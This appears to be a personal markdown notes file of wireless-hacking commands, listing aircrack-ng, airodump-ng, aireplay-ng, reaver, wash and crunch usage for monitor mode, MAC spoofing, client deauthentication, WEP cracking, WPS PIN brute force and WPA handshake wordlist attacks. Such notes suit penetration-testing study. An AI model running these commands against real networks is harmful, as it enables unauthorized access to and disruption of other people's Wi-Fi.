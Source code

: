 # dump
Contains non relevant info that I wanna dump


## Table of Content
1. Network Hacking
    1. Pre-connection Attack
    1. Gaining Access
    1. Post-connection Attack
1. Gaining Access
1. Post exploitation
1. Website Hacking 
---

```
iwconfig : Gived info about wireless adapter
ifconfig [interface name] down/up : Make the interface up/down
airmon-ng check kill
iwconfig [interface-name] mode monitor : Changes wireless mode from managed to monitor
ifconfig [interface-name] hw ether [Your_Desired_MAC_Adress]
```

### airodump-ng : Used by wireless interface in monitor mode to capture packet
```
airodump-ng [interface-name] : Sniffs all the wireless network around with their protection level(Open/WEP/WPA/WPA2) and other critical info

airodump-ng --band [a,b,g,n] [interface-name] : capture packet in band specified

airodump-ng --bssid [bssid] --channel [channel number] --write [filename] [interface-name]

aireplay-ng --deauth  100000 -a [access mac] -c [client mac] [interface-name] : Disable a user from using wi-fi
```

### aircrack-ng : Used to crack WEP(IV + key) 
```
aircrack-ng [cap-file-name]
```

### aireplay-ng : Used to generate fake traffic. It comes handy if target wifi is not generating enough traffic
```
aireplay-ng --fakeauth 0 -a [mac-of-AP] -h [mac-of wireless-adapter] [interface-name] : For assocaiation
aireplay-ng --arpreplay  -b [mac-of-AP] -h [mac-of wireless-adapter] [interface-name]
```

### Cracking WPA/WPA2
Only difference in encrption used for message integrity
WPA: DKIP
WPA2: CCMP

WPS: Can be exploited. It was designed to simplify connecting to wireless. Only way to prevent against this is enabling PBC(Push button connect)

```
wash --interface [interface-name] : Shows all the wifi with wps enabled
reaver --bssid [bssid] --channel [channel number] --interface [interface-name] -vvv --no-associate : Bruteforce 8 bit WPS pin which is then used to compute WPA Passkey
```

#### Wordlist Attack
```
MIC of handshake + word list 
aircrack-ng [handshake-capture-file]-w [wordlist] 
```
---
#### Creating Wordlist
crunch [min] [max] [character] -t [pattern] -o [filename]
